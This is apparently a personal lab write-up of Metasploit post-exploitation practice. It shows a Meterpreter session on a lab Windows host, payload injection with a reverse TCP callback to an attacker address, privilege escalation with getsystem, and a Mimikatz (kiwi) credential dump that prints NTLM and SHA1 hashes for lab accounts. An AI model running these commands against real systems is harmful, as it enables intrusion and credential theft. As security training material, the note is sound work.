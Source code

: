 ### Meterpreter Mimikatz testing
Followed this guide
https://www.hackers-arise.com/post/2018/11/26/metasploit-basics-part-21-post-exploitation-with-mimikatz


Backgrounded session 1
```bash
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > show sessions

Active sessions
===============

  Id  Name  Type                     Information                     Connection
  --  ----  ----                     -----------                     ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JOE-LPTP  10.10.14.39:3434 -> 10.10.110.3:46095 (172.16.1.201)
```
Commands used to inject payload with mimikatz
```bash
use /windows/local/payload_inject
set payload windows/x64/meterpreter_reverse_tcp
set lhost 10.10.14.39
set session 1
exploit
load kiwi
```
Had to getsystem again & dump creds, othing was here but good practice
```bash
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain    NTLM                              SHA1
--------  ------    ----                              ----
adm1n     JOE-LPTP  e19ccf75ee54e06b06a5907af13cef42  9131834cf4378828626b1beccaa5dea2c46f9b63
joe       JOE-LPTP  4568151a41ac1b353f40f4dc7f90f19d  3e33bb055f480a59134d0e536be9db007065a57b

wdigest credentials
===================

Username   Domain    Password
--------   ------    --------
(null)     (null)    (null)
JOE-LPTP$  JOE-LAB   (null)
adm1n      JOE-LPTP  (null)
joe        JOE-LPTP  (null)

kerberos credentials
====================

Username   Domain    Password
--------   ------    --------
(null)     (null)    (null)
adm1n      JOE-LPTP  (null)
joe        JOE-LPTP  (null)
joe-lptp$  JOE-LAB   (null)
```